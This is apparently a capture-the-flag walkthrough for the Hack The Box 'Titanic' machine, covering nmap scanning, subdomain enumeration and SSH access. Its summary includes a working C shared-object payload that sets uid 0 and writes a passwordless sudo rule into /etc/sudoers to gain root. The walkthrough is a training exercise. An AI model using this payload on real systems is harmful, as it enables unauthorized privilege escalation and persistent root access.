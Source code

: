 # 🚢Titanic

## 🧠Summary 
> Using basics of web enumeration to find the vulnerabale subdomain which leads access to the
> machine using SSH(secure shell). In the machine found a vulnerable file identify_image.sh, So introduced a
> C program for gaining root access
  ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
## 🔍Step 1 (Nmap scan)
- Did an nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- Note: Using the sV flag is for version detection which is always useful because can search in the web for past vulnareblity of that version
- The result of the nmap scan is in this link 👉 [nmap_scan_result](./nmap_scan.txt)
## 💡Step 2 (Web analysis)
- Before starting analysis updated the etc/hosts
  ```bash
  sudo echo "{ip address}    titanic.htb" > etc/hosts
  ```
- Registred in the site to see output and found out that you can directly download things from the site
## 💻Step 3 (Enumeration)
- Used a custom made python script and wordlist that aling mostly to tourism and booking site
- custom python script 👉 [enumeration.py](./custom_tool/enumeration.py)
